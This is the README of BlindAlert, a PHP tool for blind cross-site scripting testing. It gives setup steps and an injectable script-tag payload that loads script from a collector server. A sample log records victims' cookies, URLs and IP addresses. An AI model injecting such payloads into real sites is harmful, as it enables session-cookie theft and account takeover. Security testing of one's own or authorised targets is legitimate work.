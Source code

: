 # BlindAlert

![BlindAlert](https://image.ibb.co/iHB1Dx/blind_Alert.png)

Easy Blind Cross-site Scripting testing tool.

## Requirements

* PHP >= 5.7
* Running server or [ngrok](https://ngrok.com/) (access localhost over the internet)

## Installation

Either you can install in your local system and access through the ngrok or install into a live server.

To install BlindAlert, simply clone the repo
```
git clone https://github.com/mdhama/blindAlert.git
```

To Run on local server
```
cd blindAlert
php -S localhost:80
```
Now open http://localhost in your browser.

Over the internet using ngrok
```
./ngrok http 80
```


## Uses

- Create a JS payload and start blindly putting into endpoints :-) 
`e.g. "><script src="http://localhost"></script>`
- When it executes sucessfully, it creates an output file within the same project directory. 

Example output file.txt: 

```
origin: http://example
host: example
url: http://example/user/posts
referrer: http://example/user
user-agent: <user-agent>
cookies: <document.cookie>
ip: <ip_addess>
```
